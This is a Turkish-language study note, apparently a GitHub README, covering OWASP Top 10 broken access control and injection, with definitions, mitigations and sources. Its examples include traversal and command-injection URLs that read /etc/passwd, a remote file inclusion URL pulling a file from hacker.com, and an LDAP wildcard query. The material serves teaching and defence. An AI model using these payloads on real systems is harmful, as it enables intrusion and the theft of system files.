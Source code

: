 # İçerik
- [x] A01: Broken Access Control
- [ ] A02: Cryptographic Failures
- [ ] A03 Inejcttion
- [ ] A04 Insecure Design
- [ ] A05 Security Misconfiguration
- [ ] A06 Vulnerable and Outdated Components
- [ ] A07 Identification and Authentication Failures 
- [ ] A08 Software and Data Integrity Failures
- [ ] A09 Security Logging and Monitoring Failures
- [ ] A10 Server Side Request Forgery (SSRF)

--- 

# A01:2021 -  Bozuk Erişim Kontrolü ( Broken Access Control)
Erişim kontrolü kullanıcıların yetkileri dışına çıkmamalarını sağlamaktadır. Yetkisiz kullanıcının, yetkisi dışında gerçekleştirebildiği işlemler bu güvenlik açığını ortaya çıkarmaktadır. Erişim denetimleri birçok yöntem ile bypass edilebilmektedir. **Authentication** (kimlik doğrulama) ve **Authorization** (yetkilendirme), konuyla ilgili çnemli kavramlardır. Kimlik doğrulama, kullanıcının kim olduğunun doğrulandığı işlemdir. Yetkilendirme işlemi ise kullanıcının kimliğine göre yetkilerin kontrol edilmesidir. Erişim kontrolü, kullanıcının gerçekleştireceği işlemi yapıp yapamayacağını belirlemektedir. Erişim Denetim Türleri üç kategoride incelenebilmektedir.
	1. Vertical Access Control (Dikey Erişim Kontrolü): Bu kontrol mekanizmasında, normal kullanıcıların yönetici izinlerini kullanmasına izin vermez.Kullanıcı türüne göre yetkilendirme yapılabilir.
	2. Horizontal Access Control (Yatay Erişim Kontrolü):  Kullanıcıların kaynakları ayrıdır. Bir kullanıcı başka bir kullanıcının kaynaklarına ve yetkilerine erişim sağlayamaz.
	3. Context-Dependent Access Control (Bağlamsal Erişim Kontrolü): Kullanıcının gerçekleştiği işlemlerin sırasına göre yetkilendirme işlemi gerçekleşmektedir. Örneğin, kullanıcı sepetine ürün ekleme/çıkarma gibi işlemleri gerçekleştirebilir. Ödeme yapıldıktan sonra satın aldığı ürünleri değiştirememesi gerekir.

## Güvenlik açıklıkları
- URL veya HTML sayfasında değişiklik yapma, API isteklerini düzenleme 
- Başka  bir kullanıcıya ait eşsiz id ile hesap üzerinde düzenleme yapabilme, IDOR zafiyeti (insecure direct object references)
- Yetki yükselterek admin haklarına sahip olma veya giriş yapmadan varsayılan kullanıcı haklarına sahip olma
- Metadata manipülasyonları, JSON Web Token geçersizleştirme
- CORS(Cross Origin Resource Sharing) konfigurasyonlarının eksik yapılması. CORS, istekleri farklı domain(etki alanına) göndermeyi sağlayan yapıya denir. 

## Önlemler
Erişim kontrolü, sunucu tarafının güvenilir olmasıyla veya server-less(sunucusuz) API kullanımı ile kullanışlı durumdadır.Erişim kontolü olası güvenlik saldırılara karşı,
- Erişim kontrol hataları loglanması
- Web sunucu dizinlerini devre dışı bırakmak yedekleme dosyalarını bu dizinde bulundurmamak
- Durum bilgisini içeren tanımlayıcılar oturum kapatıldıktan sonra geçersiz duruma gelmelidr. Durum bilgisi taşımayan JWT tokenleri geçerlilik süreleri kısa tutulmalı
- Her istekte izinlerin doğrulanması
- Erişim izinlerinin varsayılan olarak kapalı olması 
- Bağlantı adresi içerisindeki id parametresi değiştirilemese bile erişilmez olması gerekmektedir.
- 

Note:
JWT(JSON Web Token) json objelerini kullanarak uygulama ve kullanıcı arasında güvenli veri taşımayı sağlar ve taşıdığı verinin bütünlüğünü doğrulayabilmektedir.Oturum yönetimi için kullanılır. Giriş yapan her kullanıcı tokene sahiptir böylece hangi izinlere sahip olduğu içerisinde  belirtilir. Brute force yöntemini kullanarak dizin listeleme yaparak token doğrulama,XXE, CSRF saldırıları ile anahtar değeri sızdırılabilir. JWT, başlık, payload, imza şeklinde 3 parçadan oluşur ve encode edilmiş haldedir. https://jwt.io/ sitesinde örnek gösterimi bulunmaktadır.

## Örnek Saldırı Senaryoları

- Uygulama içerisinde hesap bilgilerine erişilen kısımda doğrulanmamış verilerin kullanılması, tehdit aktörünün bağlantı adresindeki id parametresini değiştirerek herhangi bir hesaba erişmesine neden olabilir. 
- Admin sayfasına erişim sağlayabilmesi (örneğin, `https://target.com/admin` gibi)
- Directory Traversal File Include (Dizin veya dosya yolu geçişi) yani, bağlantı adresi ile sunucu içerisindeki dosyaya erişim sağlamak. Yerel ve uzaktan dosya dahil etme olarak iki türlü gerçekleşebilmektedir. LFI(Local File Inclusion), sunucu içerisinde yani yerelde bulunan dosyaları okuyabilme ve içeriğine erişebilme işleminin gerçekleşmesidir. Örneğin,  `http://example.com/getUserProfile.jsp?item=../../../../etc/passwd` şeklinde yapılan aramada kullanıcıların giriş bilgilerini tutan dosyaya erişim sağlanabilir eğer LFI zafiyeti bulunuyorsa. RFI(Remote File Inclusion), zafiyetinde ise uzak sunucudan dosya yüklenebilmesi ve çalıştırılmasıdır. Örnek olarak `http://example.com/index.php?file=http://hacker.com/malicious.txt` . Tehdit aktörü, sunucu içerisine hacker.com adresinden malicious.txt isimli dosyayı yüklemektedir. Atlatma yöntemlerinde encoding işlemleri de gerçekleşmektedir.


## İlgili CWE Sayısı
34 tanedir

---
# A02:2021 Cryptographic Failures (Kriptografik Hatalar)

- [ ] TODO

---
# A03:2021 Injection

## Güvenlik açıklıkları
Injection zafiyeti, kullanıcıdan gelen girdinin kontrol edilmemesinden kaynaklanmaktadır. Kötü amaçlı kullanıcı SQL sorgusu, zararlı komutlar çalıştırabilir veya zararlı dosya yüklemesi ile uzaktan komut çalıştırabilir. Bunun gibi birçok saldırı senaryoları bulunmaktadır.  Injection çeşitleri olarak,
- **SQL injection:** Kullanıcı tarafından uygulamada bulunan veri girdisinde SQL sorgu cümlesinin enjekte edilmesi veya çalıştırılabilmesidir. Bu işlem sonucunda, veritabanı içerisinden hassas bilgilere erişilebilir, içeriği değiştirebilir. Böylece veri bütünlüğü bozulmuş olur.  
- **OS command injection:** Web sunucusu üzerinde işletim sistemi komutlarının çalıştırılabilmesidir. Bu sayede zararlı aktiviteler gerçekleştirilebilir, işletim sistemi içerisindeki şifre gibi hassas bilgilere ulaşabilir. Url sonuna `%3B` yani komut ayırıcı olarak kullanılan  `;` işareti eklenir . Örneğin, `http://sensitive/something.php?dir=%3Bcat%20/etc/passwd` . Bu istek sonucunda istenen dosya içeriğine ulaşılabiliyorsa bu zafiyet meydana gelmiştir. Bu gibi hassas işletim sistemi komutlarının tespiti gerçekleşebilmektedir. 
- LDAP Injection: kullanıcının girdisine bağlı olarak LDAP ifadelerin oluşmasıdır. Kullanıcının hesabının doğrulanması için LDAP kullanılması ve LDAP sorgularının güvenli olmaması bu iki faktör LDAP injection güvenlik açığına neden olmaktadır. LDAP sorguları SQL sorgulara benzetilmektedir. LDAP protokolü, kullanıcı hakkında bilgileri depolamaktadır. Sunucu tarafından gerçekleşen saldırı türüdür(server-side attack). Web uygulamaları kullanmaktadır. Başarılı gerçekleşen LDAP injection saldırısında LDAP arama  filtreleri metakarakerler uygulama içerisinde çalıştırılarak LDAP'ın depoladığı kullanıcı bilgilerine erişim sağlanabilir veya değiştirilebilir. Örneğin, yapılan http isteği şu şekilde olsun `http://www.example.com/ldapsearch?user=John` , John yerine  `*` işaretini koyarsak, arama filtresi  `searchfilter="(cn=*)"` böyle olur ve uygulamaya göre kaydedilen  tüm kullanıcı bilgilerine erişim sağlanabilir.  `cn` , `uid` , `homeDirectory`  gibi  paramtereler ile hangi dizinde olduğu bile öğrenilebilir.


## Önlemler
Injection zafiyetinin önlenmesi için, 
- Geliştirilen uygulama içerisinde veri girişlerinin bazı araçlar ile test edilmesi
- Verilerin sunucu tarafında doğrulamasının yapılması  
- Veritabanı sorguları için özel karakterlerden kaçınılması
- LDAP için tüm değlerden kaçınarak LDAP encoding işleminin yapılması. OWASP ZAP bu zafiyeti otomatik olarak tespit edebilmektedir.
- Kullanıcı girdi doğrulaması yapılırken tehlikeli olabilen  `& | ; $ > < \  ` gibi işaretlerin içermediği izin verilen karakterler listesi kullanılabilir. Kullanıcıdan istenen girdiye göre harf veya sayı ile sınırlandırılabilir ayrıca girdinin karakter sayısı aralığı da belirlenerek injection riski azaltılabilir.

## Örnek Saldırı Senaryoları

- [ ] TODO:

---

# A04: Insecure Design

- [ ] TODO

---
# Kaynak 
- [OWASP TOP 10](https://owasp.org/Top10/)
* [JWT Nedir?](https://medium.com/bili%C5%9Fim-hareketi/json-web-tokens-jwt-nedir-4d10c7e692f4)
* [JWT Nedir, Güvenlik Kontrolleri Nasıl Yapılandırılır?](https://medium.com/trendyol-tech/jwt-nedir-g%C3%BCvenlik-kontrolleri-nas%C4%B1l-yap%C4%B1l%C4%B1r-3421ebc33989)
* [Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)
* [A Comprehensive Guide to Broken Access Control](https://www.prplbx.com/resources/blog/broken-access-control/)
* [Local File İnclusion Nedir ?](https://murat-mdk64.medium.com/local-file-i%CC%87nclusion-nedir-9afd23473405)
* [OWASP Top 10 for Web ](https://application.security/free/owasp-top-10)
* 


